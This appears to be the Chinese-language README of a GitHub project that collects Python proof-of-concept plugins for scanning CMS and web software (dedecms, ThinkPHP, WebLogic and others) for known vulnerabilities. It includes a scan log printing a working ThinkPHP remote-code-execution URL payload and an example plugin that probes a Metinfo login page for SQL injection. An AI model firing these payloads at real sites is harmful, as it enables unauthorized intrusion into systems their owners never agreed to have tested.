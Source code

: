 # cms_poc_exp (扫描版本、兼容pocsuite3插件调用)
![](https://img.shields.io/badge/program-Python3-blue.svg)
___

## 此项目的目的与意义
> 个人精力有限,故公开此项目让感兴趣的人一起搜集插件为自己/作者扫描器提供强力的驱动
> 如果感兴趣为本项目提供支持,可以联系本人QQ2563152103

+ 项目说明
  - ~~本项目插件现已支持Python3 不再兼容Python2,故若要使用 [ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)
  进行批量扫描,请自行修改插件支持Python2~~
  - ~~[ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)批量扫描将会再之后修改为支持Python3~~
  - `ShellFrameworkd`已更名为[PocBatch-M](https://github.com/1oid/PocBatch-M)并支持了Python3
  - 更新pocsuite3插件调用 20211116
  - 更新算法，新增颜色 20220301

+ 使用说明
`python3 scan.py -u "http://43.*.*.*" -m dedecms`
```
➜  cms_poc_exp_dev git:(dev) ✗ python3 newscan.py -u "http://localhost:8080" -m thinkphp
[INFO] loaded exploits folder 31
[INFO] loaded 4 plugins for thinkphp
[NOT] check thinkphp_5_0_to_23_rce_captcha_poc2 not vulnerability
[NOT] check thinkphp_5_0_to_23_rce_captcha not vulnerability
[FIND] [ThinkphpRCE] http://localhost:8080?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
[NOT] check thinkphp_5_0_to_20_rce_captcha not vulnerability
```



+ 现有的cms插件
  - [dedecms](https://github.com/1oid/cms_poc_exp/tree/master/dedecms)
  - [discuz](https://github.com/1oid/cms_poc_exp/tree/master/discuz)
  - [emobile](https://github.com/1oid/cms_poc_exp/tree/master/emobile)
  - [finecms](https://github.com/1oid/cms_poc_exp/tree/master/finecms)
  - [jcms](https://github.com/1oid/cms_poc_exp/tree/master/jcms)
  - [maccms](https://github.com/1oid/cms_poc_exp/tree/master/maccms)
  - [metinfo](https://github.com/1oid/cms_poc_exp/tree/master/metinfo)
  - [phpcms](https://github.com/1oid/cms_poc_exp/tree/master/phpcms)
  - [tomcat](https://github.com/1oid/cms_poc_exp/tree/master/tomcat)
  - [weblogic](https://github.com/1oid/cms_poc_exp/tree/master/weblogic)
  - [wordpress](https://github.com/1oid/cms_poc_exp/tree/master/wordpress)
  - [网站扫描插件_其他通用漏洞](https://github.com/1oid/cms_poc_exp/tree/master/www)
  - [yonyouoa](https://github.com/1oid/cms_poc_exp/tree/master/yongyouoa)
  - [zfsoft](https://github.com/1oid/cms_poc_exp/tree/master/zfsoft)
  - [jetty](https://github.com/1oid/cms_poc_exp/tree/master/jetty)
  - [ecshop](https://github.com/1oid/cms_poc_exp/tree/master/ecshop)
  - [74cms](https://github.com/1oid/cms_poc_exp/tree/master/74cms)

+ 插件编写格式,
```python
class Exploit:

  def attack(self, url):
    # 这里写验证漏洞的一些代码
    return "返回(提示)字符串"
```
调用 `Exploit().attack(url)`

以`metinfo_login_lang_sql`插件为例
```python
import requests
from urllib.parse import quote

class Exploit:

    def attack(self, url):
        true_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='1")
        false_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='2")

        response = requests.get(true_url)
        response2 = requests.get(false_url)

        if 'not have this language' in response2.text and 'not have this language' not in response.text:
            return "{} has SQL Injection!".format(true_url)
```

## 插件编写注意事项
+ 拒绝重复插件, 新增了一个`find.py`, 通过特征来搜索已存在的脚本是否含有指定特征
使用方法: 
  - 方法一: `python3 find.py cms名称 特征` 例如 `python3 find.py dedecms /install/index.php`
  - 方法二: `python3 find.py 特征` 例如 `python3 find.py /install/index.php` (如果不指定cms, 则会查找本地所有的插件)

## 本项目目前支持/贡献的人
- [1oid(作者)](https://github.com/1oid)
- [ske](https://github.com/SkewwG/)提供自己编写的插件[VulScan](https://github.com/SkewwG/VulScan)
- [LiodAir](https://github.com/LiodAir)提交分支
- [icetea1](https://github.com/icetea1) 提交新的cms和poc
